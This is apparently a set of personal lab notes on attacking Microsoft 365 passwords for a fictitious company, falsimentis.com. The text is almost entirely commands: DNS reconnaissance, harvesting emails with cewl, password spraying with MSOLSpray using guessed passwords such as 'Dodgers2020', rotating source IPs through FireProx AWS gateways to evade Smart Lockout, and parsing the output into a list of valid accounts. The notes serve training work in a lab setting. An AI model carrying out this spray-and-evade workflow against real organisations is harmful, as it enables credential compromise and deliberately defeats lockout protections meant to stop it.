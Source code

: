 # Attacking microsoft 365 passwords notes

recon

```
dig +short @172.30.0.254 MX falsimentis.com
dig +short @172.30.0.254 CNAME autodiscover.falsimentis.com
```

visit these sites and enumerate to understand more, in this case we find emails so let's use cewl to extract them out

```
cewl -d 8 -w words.txt -e --email_file email.txt http://www.falsimentis.com/
```

above will create a words list named words.txt and an email file list named email.txt

## MSOLSpray

now spary these with MSOLSpray tool
[MSOLSpray](https://github.com/dafthack/MSOLSpray)

```
Import-Module /opt/MSOLSpray/MSOLSpray.ps1
Invoke-MSOLSpray -UserList ./email.txt -Password Lakers2020
Invoke-MSOLSpray -UserList ./email.txt -Password Dodgers2020
```

smartlock will lock these so instead let's use fireprox

```
sudo fire.py --command create --url http://myip.sunsetisp.com
curl http://32ptk9jqm0.execute-api.us-east-1.amazonaws.com/
sudo fire.py --command delete --api_id 32ptk9jqm0
```

now use fireprox to create a microsoft login and run the spray against it

```
sudo fire.py --command create --url https://login.microsoft.com
Invoke-MSOLSpray -UserList ./email.txt -Password Dodgers2020 -URL http://9jb82e7504.execute-api.us-east-1.amazonaws.com/ -OutFile ~/msolspray.txt
Get-Content ~/msolspray.txt
Get-Content ~/msolspray.txt | ForEach { ($_ -split ' ')[6] }
Get-Content ~/msolspray.txt | ForEach { ($_ -split ' ')[6] } | Out-File ~/falsimentis-valid-users.txt
```
